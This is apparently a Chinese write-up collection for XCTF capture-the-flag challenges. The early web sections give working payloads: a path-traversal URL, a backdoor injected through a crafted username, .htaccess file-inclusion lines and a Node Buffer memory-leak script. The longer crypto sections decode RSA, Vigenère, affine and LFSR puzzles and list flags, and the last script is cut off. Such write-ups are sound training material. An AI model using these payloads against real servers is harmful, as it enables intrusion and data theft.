可以看到只要登录 admin 账号就可以获得 flag1，在泄露的源码里得知有 users 目录，继续尝试路径穿越：


```
http://220.249.52.134:51526/post.wtf?post=../users
```

在里面我们看到了admin的登录信息


我们点admin抓个包，因为我们可以猜测是cookie或者是代表我们身份的令牌：


果然，Cookie现在是我们的登录信息，我们需要替换为admin的信息，注意GET请求的用户名，是只属于admin的


这样我们就获得了第一部分的flag

```
Flag: xctf{cb49256d1ab48803
```


这flag的后半部分是真的很难找到的

首先我们需要在源码中找解析 wtf 文件的代码，因为 wtf 不是常规的网页文件，故寻找解析 wtf 文件的代码：

> 能够解析并执行 wtf 文件，如果还能够上传 wtf 文件并执行的话，就可以达到控制服务器的目的。


格式化代码，获得下面的方法：

```php
function reply {
    local post_id=$1;
    local username=$2;
    local text=$3;
    local hashed=$(hash_username "${username}");
    curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
    next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
    next_file=(posts/${post_id}/${next_reply_id});
    echo "${username}" > "${next_file}";
    echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
    echo "${text}" >> "${next_file}";
    # add post this is in reply to to posts cache
    echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
```

这是评论功能的后台代码，这部分也是存在路径穿越的

这行代码把用户名写在了评论文件的内容中：

```php
echo "${username}" > "${next_file}";
```

通过上面的分析：如果用户名是一段可执行代码，而且写入的文件是 wtf 格式的，那么这个文件就能够执行我们想要的代码。 （而且*wtf.sh*只运行文件扩展名为.wtf的脚本和前缀为'$'的行）

先普通地评论一下，知晓评论发送的数据包的结构，在普通评论的基础上，进行路径穿越，上传后门`sh.wtf`：

```
post=../users_lookup/sh.wtf%09
```

**注意：**`%09`是水平制表符，必须添加，不然后台会把我们的后门当做目录去解析。

访问后门，发现成功写入：


为了写入恶意代码，我们得让**用户名里携带代码**，故注册这样一个用户：`${find,/,-iname,get_flag2}`  写入后门：


这边得到地址为 `/usr/bin/get_flag2`，为了得到flag，我们继续添加用户`$/usr/bin/get_flag2` 


得到flag后半段

```
Flag: 149e5ec49d3c29ca}
```

其实到这里就结束了，但是还是想说这道题不是一般的难，要考虑到的东西太多了。


### blgdel

#### 考点：文件上传

进入题目我们先找源码，尝试后再robots.txt中找到了源码的路径


进入源码进行审计

```php
<?php
class master
{
	private $path;
	private $name;
	
	function __construct()
	{
	}
	
	function stream_open($path)
	{
		if(!preg_match('/(.*)\/(.*)$/s',$path,$array,0,9))
			return 1;
		$a=$array[1];
		parse_str($array[2],$array);
		
		if(isset($array['path']))
		{
			$this->path=$array['path'];
		}
		else
			return 1;
		if(isset($array['name']))
		{
			$this->name=$array['name'];
		}
		else
			return 1;
		
		if($a==='upload')
		{
			return $this->upload($this->path,$this->name);
		}
		elseif($a==='search')
		{
			return $this->search($this->path,$this->name);
		}
		else 
			return 1;
	}
	function upload($path,$name)
	{
		if(!preg_match('/^uploads\/[a-z]{10}\/$/is',$path)||empty($_FILES[$name]['tmp_name']))
			return 1;
		
		$filename=$_FILES[$name]['name'];
		echo $filename;
		
		$file=file_get_contents($_FILES[$name]['tmp_name']);
		
		$file=str_replace('<','!',$file);
		$file=str_replace(urldecode('%03'),'!',$file);
		$file=str_replace('"','!',$file);
		$file=str_replace("'",'!',$file);
		$file=str_replace('.','!',$file);
		if(preg_match('/file:|http|pre|etc/is',$file))
		{
			echo 'illegalbbbbbb!';
			return 1;
		}
		
		file_put_contents($path.$filename,$file);
		file_put_contents($path.'user.jpg',$file);
		
		
		echo 'upload success!';
		return 1;
	}
	function search($path,$name)
	{
		if(!is_dir($path))
		{
			echo 'illegal!';
			return 1;
		}
		$files=scandir($path);
		echo '</br>';
		foreach($files as $k=>$v)
		{
			if(str_ireplace($name,'',$v)!==$v)
			{
				echo $v.'</br>';
			}
		}
		
		return 1;
	}
	
	function stream_eof()
	{
		return true;
	}
	function stream_read()
	{
		return '';
	}
	function stream_stat()
	{
		return '';
	}
	
}

stream_wrapper_unregister('php');
stream_wrapper_unregister('phar');
stream_wrapper_unregister('zip');
stream_wrapper_register('master','master');

?>
```

**代码分析：**
定义了一个类master，其中有几个方法，我们逐个分析。

> stream_open()
> 对path的传参和name的传参从字符串到变量，做了一个方法对应。
> 正则进行匹配文件上传，这里也就是一个文件

upload()

> 对上传的文件内容中存在 < " ’ . 全部替换为 !
> 然后如果匹配到 /file: http pre etc/is 就会报错
> 最后输出文件内容和文件路径

search()

> 判断了是否存在p a t h 路 径 ， 对 当 前 目 录 进 行 遍 历 ， 存 在 和 path路径，对当前目录进行遍历，存在和*path*路径，对当前目录进行遍历，存在和name相同的文件或者目录替换为空
> 并列出当前目录。


我们先看看文件上传：/upload.php这个路径


我们可以看到页面回显说我们等级不够，测猜需要拿一个高分的账户，其实刚刚注册时就已经发现，在注册页面有个推荐人，猜测是推荐人可以获得积分，试了一下，注册一个新账户，推荐人会获得给10个积分，那么我们多注册几个用户来增加积分


当为100时，我们获得了文件上传的权利

接着我们在进行后台扫描时，又发现了一个路径：sql.txt，但好像没什么用


我们进入个人主页的头像的上传点，进行一句话木马的上传，接着我们访问一下（都在/uploads/xgkfdmzxjw中）


可以发现我们的<被替换成了!，代码尽管上传成功，但是无法执行。


这里在源码里我们也看了。对上传文件的内容进行了一些敏感字符的替换。

于是我们可以上传.htaccess文件，那么就可以用.htaccess修改配置文件。

```
php_value auto_append_file master://search/path=%2fhome%2f&name=flag		//第一次写入.htaccess文件中的内容，寻找flag路径
```

> 这里也是使用了在源码中唯一开启的伪协议master://=
>
> 简单来说，我们构造这个master协议来搜索文件，包含成功的话，这个文件的内容会映射到任意一个.php文件里面

访问我们刚刚传入的php，我们可以看到flag的文件名


接着我们重新构造.htaccess文件，再去访问一下，获得了flag

```
php_value auto_append_file /home/hiahiahia_flag
```


### leaking

#### 考点：node.js沙箱逃逸

访问题目地址：

```js
"use strict";

var randomstring = require("randomstring");
var express = require("express");
var {
    VM
} = require("vm2");
var fs = require("fs");

var app = express();
var flag = require("./config.js").flag

app.get("/", function(req, res) {
    res.header("Content-Type", "text/plain");

    /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
    eval("var flag_" + randomstring.generate(64) + " = \"flag{" + flag + "}\";")
    if (req.query.data && req.query.data.length <= 12) {
        var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
    } else {
        res.send(fs.readFileSync(__filename).toString());
    }
});

app.listen(3000, function() {
    console.log("listening on port 3000!");
});
```

因为之前没有做过这样的题目，我查询了wp。

经过查阅，这其实是一道关于**node.js沙箱逃逸**的问题，通过定义变量 flag，然后可以在沙箱里面执行任意的命令。

执行任意命令后，就是该考虑如何逃逸出去。

> 在较早一点的node版本中(8.0之前)，当 Buffer的构造数传入数字时，会得到与数字长度一致的一个 Buffer,并且这个Buffer是未清零的。
>
> 8.0之后的版本可以通过另ー个函数Buffer. a lloclnsafe(size) 来获得未清空的内存

这儿的环境是 8.0 之前的，所以我们使用 Buffer()来读取内存，这个和 Linux 读内存原理差不多
直接上EXP：

```python
import requests
import time
url = 'http://your ip:port/?data=Buffer(500)'
response = ''
while 'flag' not in response:
        req = requests.get(url)
        response = req.text
        print(req.status_code)
        time.sleep(0.1)
        if 'flag{' in response:
            print(response)
            break
# flag{4nother_h34rtbleed_in_n0dejs}
```


# pwn_获取权限

## 新手练习区


# crypto_密码

## 新手练习区

### base64、Caesar、Morse

都很简单，只要按照提示进行解密就好了


### Railfence

所谓栅栏密码，就是把要加密的明文分成N个一组，然后把每组的第1个字连起来，形成一段无规律的话。 不过栅栏密码本身有一个潜规则，就是组成栅栏的字母一般不会太多

> 例如：
>
> 明文：THE LONGEST DAY MUST HAVE AN END
>
> 加密：
>
> 1、把将要传递的信息中的字母交替排成上下两行。
>
> T E O G S D Y U T A E N N
>
> H L N E T A M S H V A E D
>
> 2、 密文：
>
> 将下面一行字母排在上面一行的后边。
>
> TEOGSDYUTAENN HLNETAMSHVAED

这里是分为的5组


### 不仅仅是Morses

拿到文件后，看到是摩斯密码，先解出来

```
may be have another decodehhhhaaaaabaabbbaabbaaaaaaaabaababaaaaaaabbabaaabbaaabbaabaaaababaabaaabbabaaabaaabaababbaabbbabaaabababbaaabbabaaabaabaabaaaabbabbaabbaabaabaaabaabaabaababaabbabaaaabbabaabba
```

看到都是a，b什么的，首先想到了二进制，再想想发现这是一道解密题，是培根密码没错了

只保留a，b，使用网页解码就好了，完整格式就OK了

```
ATTACKANDDEFENCEWORLDISINTERESTING
```


### 混合编码

题目：flag->ASCII->base编码->Unicode编码->base编码。
解题：base解码->Unicode解码->base解码->对照ASCII得出flag


### easy_RSA

#### 考点：RSA密钥

我们使用工具：RSA-Tool2 by tE！

Number Base填入10，按要求填入P、Q值

这里要注意e值，e的值为十六进制，因此十进制17 e值为对应的十六进制为 11

flag ：125631357777427553


### easychallenge

#### 考点：pyc文件的反编译

> 可以用uncompyle6这个第三方python反编译器来进行反编译
>
> ```
> pip install -i https://pypi.doubanio.com/simple/ uncompyle6
> ```
>
> 在xxx.pyc所在文件夹位置打开cmder，输入命令：
>
> ```
> uncompyle6 -o . xxx.pyc
> ```
>
> 就会在文件夹内看到反编译的文件

得到文件后，打开看到python程序
这一段程序一共有两个错误，第一个是print’correct’报错，第二个是flag = raw_input()报错
这两处错误都是由于python2和python3版本不兼容造成的
将print’correct’改为print(‘correct’)，将flag = raw_input()改为flag = eval(input())就行了

发现flag经过的三次加密

只要进行解密的破解就好了

```python
import base64

def decode1(ans):
    s = ''
    for i in ans:
        x = ord(i) - 25
        x = x ^ 36
        s += chr(x)
    return s

def decode2(ans):
    s = ''
    for i in ans:
        x = i ^ 36
        x = x - 36
        s += chr(x)
    return s

def decode3(ans):
    return base64.b32decode(ans)

final = 'UC7KOWVXWVNKNIC2XCXKHKK2W5NLBKNOUOSK3LNNVWW3E==='
flag = decode1(decode2(decode3(final)))
print(flag)
```


### 转轮机加密

#### 考点：[转轮机加密](https://www.cnblogs.com/yuanchu/p/13498415.html)

根据加密特点写出脚本

```python
import re

table = [2, 3, 7, 5, 13, 12, 9, 1, 8, 10, 4, 11, 6]
Ciphertext = 'NFQKSEVOQOFNP'
with open(r'1.txt', 'r',  encoding='UTF-8') as f:
    data = f.read()

# 转轮机根据table重新排列
def wheel_decode(data, table):
    resultList = []
    pattern = re.compile('[A-Z]{26}')
    result = pattern.findall(data)

    for i in table:
        resultList.append(result[i - 1])
    return resultList

resultList = wheel_decode(data, table)

# 根据密文重新排列
def rearrange(List, Ciphertext):
    resultList = []
    for i in range(0, 13):
        resultList.append(List[i][List[i].find(Ciphertext[i]):] + List[i][:List[i].find(Ciphertext[i])])
    return resultList

resultList = rearrange(resultList, Ciphertext)

# 选取每一列，列出结果
def rearrange2(List):
    resultList = []
    s = ''
    for i in range(0, 26):
        for j in List:
            s += j[i]

        resultList.append(s)
        s = ''
    return resultList

resultList = rearrange2(resultList)
for i in resultList:
    print(i)
```

最后看到有一句：FIREINTHEHOLE


### Normal_RSA

先配置一下python的包环境，[配置gmpy2](https://www.cnblogs.com/wkzb/p/12565290.html)

又是一个RSA的题，我们有拿到题目的两个文件

> `flag.enc` 看后缀enc，分析是一个通过openssl加密后生成的文件
>
> `pubkey.pem` 应该是一个公钥信息文件

记事本打开pubkey.pem，放在在线网站解码


n是十六进制的，拿去抓换成十进制的数字，然后分解p，q


再拿脚本跑就好了，[参考](https://www.pythonheidong.com/blog/article/332352/)


### easy_ECC

##### 考点：椭圆曲线加密算法，[参考](https://www.jianshu.com/p/e41bc1eb1d81)

这里我们直接利用工具ECCTOOL解题


最后求x+y求和就是答案了


## 高手进阶区

### Flag in your hand

题目给了一个html，一个js，直接打开进行代码审计

```javascript
var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,101,120];
if (s.length == a.length) {
	for (i = 0; i < s.length; i++) {
		if (a[i] - s.charCodeAt(i) != 3)
			return ic = false;
}
	return ic = true;
}
return ic = false;
}
```

我们需要要让ic返回值为true，而token里要填的是a数列里的每位数减3，转换 asc码得到的字符，输入后得到flag

写个脚本吧

```python
a = [118, 104, 102, 120, 117, 108, 119, 124, 48, 123, 101, 120]
for i in a:
    print(chr(i - 3), end='')
```


最后得到：security-xbu，在浏览器填入后便可以得到flag


### 告诉你个秘密

#### 考点：键盘密码

下载文件，得内容如下：

```
636A56355279427363446C4A49454A7154534230526D6843
56445A31614342354E326C4B4946467A5769426961453067
```

16进制转换成字符串：

```
cjV5RyBscDlJIEJqTSB0RmhC
VDZ1aCB5N2lKIFFzWiBiaE0g
```

base64解码：

```
r5yG lp9I BjM tFhB T6uh y7iJ QsZ bhM
```

键盘加密，这些字母的键盘圈住的就是flag：**TONGYUAN**


### 工业协议分析2

拿到一组流量包

**flag{"**的16进制编码为**666c61677b**，在过滤器中搜索：**data contains "666c61677b"**，找到两个满足条件的数据包

将data提取出来：`666c61677b37466f4d3253746b6865507a7d`

16进制转字符串

```
flag{7FoM2StkhePz}
```


### sherlock（二进制）

附件是一本书的内容，发现其中有些字母莫名地大写

我们写一个python过滤一下所有的大写

```python
import re

file = open("flag.txt").read()
file_out = re.findall(r'[A-Z]', file)
s = ""
for i in file_out:
    s += i
print(s)
```

发现全是，这种东西

```
ZEROONEZEROZEROZEROZEROONEZEROZEROONEZEROZEROONEZEROZEROONEZERO
```

自然就想到二进制字符串转换，我们先转为0，1，最后二进制转换

```python
import re

file = open("flag.txt").read()
file_out = re.findall(r'[A-Z]', file)
s = ""
for i in file_out:
    s += i

s = s.replace('ZERO', '0')
s = s.replace('ONE', '1')

flag = ""
for i in range(int(len(s) / 8)):
    flag += chr(int(s[i * 8:(i + 1) * 8], 2))

print(flag)
```


### cr3-what-is-this-encryption（RSA）

看到题目中的p,q,e，就想到了RSA加密
大致思路：
先把p,q,e转成十进制，再根据公式求出n,d,m
n=p*q
φ(N) = (p-1)(q-1)
e * d % φ(N) = 1（d是私钥，e是公钥）
m＝c^ d mod n (m是明文）
借鉴[大佬](https://blog.csdn.net/vhkjhwbs/article/details/101026050#16,cr3-what-is-this-encryption)的代码：

```python
import libnum
from Crypto.Util.number import long_to_bytes

q = int("0xa6055ec186de51800ddd6fcbf0192384ff42d707a55f57af4fcfb0d1dc7bd97055e8275cd4b78ec63c5d592f567c66393a061324aa2e6a8d8fc2a910cbee1ed9",16)
p = int("0xfa0f9463ea0a93b929c099320d31c277e0b0dbc65b189ed76124f5a1218f5d91fd0102a4c8de11f28be5e4d0ae91ab319f4537e97ed74bc663e972a4a9119307",16)

e = int("0x6d1fdab4ce3217b3fc32c9ed480a31d067fd57d93a9ab52b472dc393ab7852fbcb11abbebfd6aaae8032db1316dc22d3f7c3d631e24df13ef23d3b381a1c3e04abcc745d402ee3a031ac2718fae63b240837b4f657f29ca4702da9af22a3a019d68904a969ddb01bcf941df70af042f4fae5cbeb9c2151b324f387e525094c41",16)

c = 0x7fe1a4f743675d1987d25d38111fae0f78bbea6852cba5beda47db76d119a3efe24cb04b9449f53becd43b0b46e269826a983f832abb53b7a7e24a43ad15378344ed5c20f51e268186d24c76050c1e73647523bd5f91d9b6ad3e86bbf9126588b1dee21e6997372e36c3e74284734748891829665086e0dc523ed23c386bb520

n = q*p
 
d = libnum.invmod(e, (p - 1) * (q - 1))
m = pow(c, d, n)   # m 的十进制形式
string = long_to_bytes(m)  # m明文
print(string)  # 结果为 b‘ m ’ 的形式
```


### Decrypt-the-Message（诗歌密码）

题目给了我们一首英文诗歌，还有一串加密信息

> The life that I have
> Is all that I have
> And the life that I have
> Is yours.
>
> The love that I have
> Of the life that I have
> Is yours and yours and yours.
>
> A sleep I shall have
> A rest I shall have
> Yet death will be but a pause.
>
> For the peace of my years
> In the long green grass
> Will be yours and yours and yours.
>
> decrypted message: emzcf sebt yuwi ytrr ortl rbon aluo konf ihye cyog rowh prhj feom ihos perp twnb tpak heoc yaui usoa irtd tnlu ntke onds goym hmpq

这种加密其实也挺复杂的，开始做的时候我也是不会的，看了大神的wp理解了这一种加密方法，[Poem加密](https://www.cnblogs.com/coming1890/p/13520417.html)


我们先举一个例子，方便理解如何加密

首先准备一首诗、明文

> 诗：for my purpose holds to sail beyond the sunset, and the baths of all the western stars until I die.
> 明文：We have run out of cigars, situation desperate.

#### 加密

从诗中选择5个词for,sail,all,stars,die，将这些词中的每个字母排序(相同的不合并)，即

|  f   |  o   |  r   |  s   |  a   |  i   |  l   |  a   |  l   |
| :--: | :--: | :--: | :--: | :--: | :--: | :--: | :--: | :--: |
|  6   |  12  |  13  |  15  |  1   |  7   |  9   |  2   |  10  |
|  l   |  s   |  t   |  a   |  r   |  s   |  d   |  i   |  e   |
|  11  |  16  |  18  |  3   |  14  |  17  |  4   |  8   |  5   |

上表共有18个字母，将明文以18个字母一组分成若干行，最后一行未满之处用a,b,...进行填充，即

|  1   |  2   |  3   |  4   |  5   |  6   |  7   |  8   |  9   |
| :--: | :--: | :--: | :--: | :--: | :--: | :--: | :--: | :--: |
|  w   |  e   |  h   |  a   |  v   |  e   |  r   |  u   |  n   |
|  r   |  s   |  s   |  i   |  t   |  u   |  a   |  t   |  i   |
|  t   |  e   |  a   |  b   |  c   |  d   |  e   |  f   |  g   |
|  10  |  11  |  12  |  13  |  14  |  15  |  16  |  17  |  18  |
|  o   |  u   |  t   |  o   |  f   |  c   |  i   |  g   |  a   |
|  o   |  n   |  d   |  e   |  s   |  p   |  e   |  r   |  a   |
|  h   |  i   |  j   |  k   |  l   |  m   |  n   |  o   |  p   |

再根据第一个表将各列置换，即eud tdj ...，最后连接起来生成密文。

破解的思路就是从诗中穷举各种取词情况，然后进行解密，然后选择可读的“明文”，已有人写好破解的[工具](https://github.com/abpolym/crypto-tools/tree/master/poemcode)


#### 解题

回到我们这一题，将诗与密文分别存为poem.txt，cip.txt并移到与poemcode.py同目录下，使用工具破解

```
python2 poemcode.py poem.txt cip.txt
```

最终找到flag

```
ifyouthinkcryptographyistheanswertoyourproblemthenyoudonotknowwhatyourproblemisabcdefghijklmnopqrstu
```


### 你猜猜（zip加密）

题目给了一个txt,内容如下

> 504B03040A0001080000626D0A49F4B5091F1E0000001200000008000000666C61672E7478746C9F170D35D0A45826A03E161FB96870EDDFC7C89A11862F9199B4CD78E7504B01023F000A0001080000626D0A49F4B5091F1E00000012000000080024000000000000002000000000000000666C61672E7478740A0020000000000001001800AF150210CAF2D1015CAEAA05CAF2D1015CAEAA05CAF2D101504B050600000000010001005A000000440000000000

#### 分析

看到开头的**504B0304**，显然这是一个zip文件的16进制形式数据,将其恢复成原格式(注意write只能写入bytes类型数据)

```python
from crypto.Util.number import * 
f = open("guess.zip","wb") 
s = 0x504B03040A0001080000626D0A49F4B5091F1E0000001200000008000000666C61672E7478746C9F170D35D0A45826A03E161FB96870EDDFC7C89A11862F9199B4CD78E7504B01023F000A0001080000626D0A49F4B5091F1E00000012000000080024000000000000002000000000000000666C61672E7478740A0020000000000001001800AF150210CAF2D1015CAEAA05CAF2D1015CAEAA05CAF2D101504B050600000000010001005A000000440000000000 
f.write(long_to_bytes(s)) 
f.close()
```

得到zip文件后解压发现需要密码,从16进制中也没看到伪加密的痕迹

利用Ziperello爆破得到密码**123456**


### streamgame1

#### 考点：流加密

题目给了常规的东西

1.先阅读代码，前面是对flag的一些限制，我们可以得到的信息：导入flag（废话，当然不能直接给你），flag的形式是flag{*****},括号内总长度19

2.然后是加密函数lfsr，我们现在并不想知道他是什么，好的，那么我们记住它是加密函数就行了，往下看

3.R取了flag中间部分并且以二进制形式转换为数字，那么我们就知道了flag括号内的东西一定是0或者1，

```python
def lfsr(R, mask):
    output = (R << 1) & 0xffffff
    i = (R & mask) & 0xffffff
    lastbit = 0
    while i != 0:
        lastbit ^= (i & 1)
        i = i >> 1
    output ^= lastbit
    return (output, lastbit)


key = [85, 56, 247, 66, 193, 13, 178, 199, 237, 224, 36, 58]
mask = 0b1010011000100011100

for k in range(2 ** 19):
    R = k;
    a = ''
    judge = 1
    for i in range(12):
        tmp = 0
        for j in range(8):
            (k, out) = lfsr(k, mask)
            tmp = (tmp << 1) ^ out
        if (key[i] != tmp):
            judge = 0
            break
    if (judge == 1):
        print('flag{' + bin(R)[2:] + '}')
        brea
```


### streamgame2

#### 考点：流加密

这里和上一题基本一样，只是key是另一个文件，flag的位数变成了21位而已，所以会有2\**21 种可能 ，也就是2097152种，可以继续爆破。把1的脚本中的key和mask改成对应数值，range()改成2**21即可


### wtc_rsa_bbq writeup（压缩包）

下载得一个压缩文件，解压后得cry200，用二进制文件查看器发现，是**504B0304**开头，又是一个压缩文件

改成cry200.zip，解压得两个文件：cipher.bin和key.pem，丢kali里运行即可：

```
python3 RsaCtfTool.py --publickey ~/Desktop/key.pem --uncipherfile ~/Desktop/cipher.bin
```

最后的flag：`flag{how_d0_you_7urn_this_0n?}`


### ecb,_it’s_easy_as_123

拿到压缩包，发现打不开解压后的文件。winhex打开，发现开头是`50 4B`，我们改一下后缀为ZIP成功打开。

里面有一段**提示文本**和一张打不开的**bmp图片文件**

提示文本如下：

```
Somebody leaked a still from the upcoming Happy Feet Three movie, which will be released in 4K, but Warner Bros. was smart enough to encrypt it. But those idiots used a black and white bmp format, and that wasn't their biggest mistake. Show 'em who's boss and get the flag.

有人泄露了即将上映的《快乐大脚3》电影的一张静止画面，这部电影将以4K格式上映，但华纳兄弟很聪明地将其加密。但那些白痴用的是黑白BMP格式 这还不是他们最大的错误 让他们知道谁才是老大，把旗子拿过来。
```

原图片应该是bmp格式，我们通过题目和该bmp的文件名可以猜测出这个文件加密类型为**块加密中的ECB模式**。

> ECB模式是一种块加密模式，该种加密再加密bmp(位图)不会掩盖明文的统计规律

因此我们可以以修复一下bmp文件——修改bmp文件的文件头。这要求文件的前128字节为bmp文件格式特有的字节。比如：

```
424d76483f00000000007600000028000000000f000070080000010004000000000000483f00000000000000000000000000000000000000000000008000008000000080800080000000800080008080000080808000c0c0c0000000ff0000ff000000ffff00ff000000ff00ff00ffff0000ffffff00ffffffffffffffffffff
```

我们拿python脚本写进去，或者直接winhex打开修改。

```python
from Crypto.Util.number import long_to_bytes

with open('ecb.bmp','rb') as f:
    data=f.read()
pre=0x424d76483f00000000007600000028000000000f000070080000010004000000000000483f00000000000000000000000000000000000000000000008000008000000080800080000000800080008080000080808000c0c0c0000000ff0000ff000000ffff00ff000000ff00ff00ffff0000ffffff00ffffffffffffffffffffL
out=long_to_bytes(pre)+data[128:]

with open('out.bmp','wb') as g:
    g.write(out)
```

最后得到flag


### cr4-poor-rsa

#### 考点：RSA加密

里面的**key.pub公钥**借助[RSA密钥解析网站](http://tool.chacuo.net/cryptrsakeyparse)解析密钥指数和模数信息，得以下结果：

> key长度：399
> 模数：A99E249EE7CF3C0CBF963A009661772BC9CDF6E1E3FBFC6E44A07A5E0F894457A9F81C3AE132AC5683D35B28BA5C324243
>
> 指数：65537 (0x10001)

得到n的十进制为：

```
n=6683279490254794288201345757574710143638977028924266806172844281163037779203646253595283088647396632408575893818196547
```

```
flag.b64：Ni45iH4UnXSttNuf0Oy80+G5J7tm8sBJuDNN7qfTIdEKJow4siF2cpSbP/qIWDjSi+w=
```


### fanfie（幻想）

**考点：仿射密码**

不得不说，这道题是真的挺难的，真的要幻想才能做出来！最后看了WP，这道题是仿射密码。该题来源于 BITSCTF ，这个信息我们待会要用到！！！

好了，我们现在看一下题目：

```
MZYVMIWLGBL7CIJOGJQVOA3IN5BLYC3NHI
```

是不是想到了**Base64/32** 解密？但是只是有关系，我们直接拿这个题目是解不出什么东西的。但记住这个就是Base32加密，只是对应关系我们还没有找到

这里我们首先对**BITSCTF**进行base32加密，对你没看错，就是这次比赛的名字，后得到的是：

```
IJEVIU2DKRDA====
```

得到的这串密文与题目给出的字符串进行比对，因为我们知道密文加密的是flag，而flag的格式前几位就是**BITSCTF**，因此我们可以对比一下我们自己加密的内容

```
MZYVMIWLGBL7CIJOGJQVOA3IN5BLYC3NHI
IJEVIU2DKRDA====
```

这里是关键！！！如何找到对应关系？

我们发现上面相同的字母对应的下面的字母也一致。（如 M - I 、L - D），说人话就是这里还经过了一次加密过程，即**一个字母替换一个字母的替换密码**，也即我们的**仿射密码**。这种密码相关介绍见：[仿射密码解密（Affine Cipher）](https://blog.csdn.net/x_yhy/article/details/83756908)

> 加密函数是 `e(x) = ax + b (mod m)` 其中a和m [互质](https://baike.baidu.com/item/互质)，m是字母的数目。
>
> 解码函数是 `d(x) = a^-1(x - b) (mod m)` (打不出来凑合一下 a^-1 乘法逆元)

如何进行仿射解密呢？ 我们有俩种方法：

1. 进行肉眼勘测和手动计算
2. python脚本自动跑


我们这里的仿射密码的a = 13和b = 4，对应表如下：


则密文进行仿射解密得：

```
MZYVMIWLGBL7CIJOGJQVOA3IN5BLYC3NHI -> IJEVIU2DKRDHWUZSKZ4VSMTUN5RDEWTNPU
```

对 IJEVIU2DKRDHWUZSKZ4VSMTUN5RDEWTNPU进行base32解密得：

```
BITSCTF{S2VyY2tob2Zm}
```


### banana-princess

这道题也是比较坑人的，下面我们来看题目

题目给了我们一个受损的PDF，我们先用weinhex打开这个文件，看到了文件头不是pdf的文件头格式，于是我们进行修改。**但是直接这么修改文件头还是打不开这个文件**，我们需要再仔细观察一下。

我们随便拿一个可以打开的pdf来进行观察，比如我们有一个是**%PDF-1.7**，而题目给的是**%CQS-1.5**。根据这个近似的格式我们可以大胆的猜测出，可能并不是这个文件头错了，可能是整个文件都发生了偏移，如果我们认为PDF近似于CQS。

最后得到，所有的字母进行了位移且相隔13。破案了，这个文件进行了ROT13加密，而ROT13不会对数字进行偏移。

我们写一个命令替换一下文件的内容。

```
cat 9e45191069704531accd66f1ee1d5b2b.pdf | tr 'A-Za-z' 'N-ZA-Mn-za-m' > new.pdf
```

现在就可以打开pdf了，如下：


另存为图片，flag可见，为BITSCTF{save_the_kid}


### shanghai（维吉尼亚）

题目提示为维吉尼亚密码，我们可以猜猜密钥是什么

先浏览一遍题目，我们知道，所有的符号和数字是不会被维吉尼亚密码给加密的，因为这种密码是凯撒密码的”升级版“，只涉及到英文字母。

其中我们发现了这一串东西，我们有理由怀疑这个是我们需要的flag，但我们没有密钥是解不出来的

```
jtcw, '{' vvj 'zvkvrmtudabiecveaaxpp' grq '}'
```

但可以猜到，密钥中可能有连续的**eicq**，**（PS：我们根据加密图进行猜测，假设如果flag对应jtcw，那么密钥中就有eicq）**


#### 猜长度&密钥内容

我们进行维吉尼亚密钥的猜测首先就是猜测密钥的长度

文段里出现许多四位数字，显然是年份，那么在数字前面若是两个字母组成的单词，不难想到，就是“in”。比如第一段，有 “mv 1580”，第三段 “qp 1586”、第四段 “qp 1917”

> mv -- `ei` qp -- `ic`

注意到第五段的数字 `“frxnimp 1914 qil 1940”` ，像这种结构，不难想到是“**between and**”型。因此可以推出密码：

> frxnimp - between  -- `enereic`
>
> qil - and  -- `qvi` 

因为between and 是连在一起的，那么现在已知的大致为 `enereicqvi` 顺序未定。


#### 确定密钥顺序

我们只需要随便找一段，就可以拿我们最找开始找到的，擦测密码`eicqviener`

```
jtcw, '{' vvj 'zvkvrmtudabiecveaaxpp' grq '}'
flag, '{' and 'vigenereisveryeasyhuh' and '}'
```

ok，提交测试一下，确定了我们的flag就是这个

最后，有一个秘密，在看过别人的wp后，我才发现，我们其实是可以找到这段原文的。这段密文其实就是百度关于维吉尼亚密码的百度百科，在做题时从对应的年份就可以大胆的进行猜测


### equation-2

太难了，暂时不看了

[参考WP](https://www.cnblogs.com/coming1890/p/13555823.html)

```
Os9mhOQRdqW2cwVrnNI72DLcAXpXUJ1HGwJBANWiJcDUGxZpnERxVw7s0913WXNtV4GqdxCzG0pG5EHThtoTRbyX0aqRP4U/hQ9tRoSoDmBn+3HPITsnbCy67VkCQBM4xZPTtUKM6Xi+16VTUnFVs9E4rqwIQCDAxn9UuVMBXlX2Cl0xOGUF4C5hItrX2woF7LVS5EizR63CyRcPovMCQQDVyNbcWD7N88MhZjujKuSrHJot7WcCaRmTGEIJ6TkU8NWt9BVjR4jVkZ2EqNd0KZWdQPukeynPcLlDEkIXyaQx
```


### safer-than-rot13

看到题目差不多就知道考的是什么了，虽然题目说rot13，但是我们可以用[词频分析](https://quipqiup.com/)解出答案

> BROKEN MEN ARE MORE DESERVING OF OUR PITY, THOUGH THEY MAY BE JUST AS DANGEROUS. ALMOST ALL ARE COMMON-BORN, SIMPLE FOLK WHO HAD NEVER BEEN MORE THAN A MILE FROM THE HOUSE WHERE THEY WERE BORN UNTIL THE DAY SOME LORD CAME ROUND TO TAKE THEM OFF TO WAR. YOUR FLAG IS "NO THIS IS NOT CRYPTO MY DEAR", IN LOWERCASE, WITH UNDERSCORES INSTEAD OF SPACES, SURROUNDED BY THE USUAL "FLAG" TAG AND CURLY BRACES. ENJOY.

这里要把空格改为下划线，最后的flag：`no_this_is_not_crypto_my_dear`


### 工控安全取证

考虑到都是流量，下载后需要改成wireshark能识别的后缀为 .pcapng

我们需要分析出第4次发起扫描时的数据包的编号，所以第一步就是要分组。我们可以发现一大堆tcp和少量ICMP，而且发起扫描多半先一个ICMP然后一堆TCP

可以这么认为，我们可以以icmp作为分组的依据，使用ICMP协议貌似刚好分成了四段，我们就看第四次的攻击


第四次应该是在155987到155990，我们大不了一个一个的尝试，最后得到flag为：`flag{155989}`


### onetimepad

参考：[攻防世界-密码学-onetimepad](https://www.cnblogs.com/coming1890/p/13607557.html)

脚本

```python
from os import urandom

def process(m, k):
    tmp = m ^ k
    res = 0
    for i in bin(tmp)[2:]:
        res = res << 1;
        if (int(i)):
            res = res ^ tmp
        if (res >> 256):
            res = res ^ P
    return res

def keygen(seed):
    key = str2num(urandom(32))
    while True:
        yield key
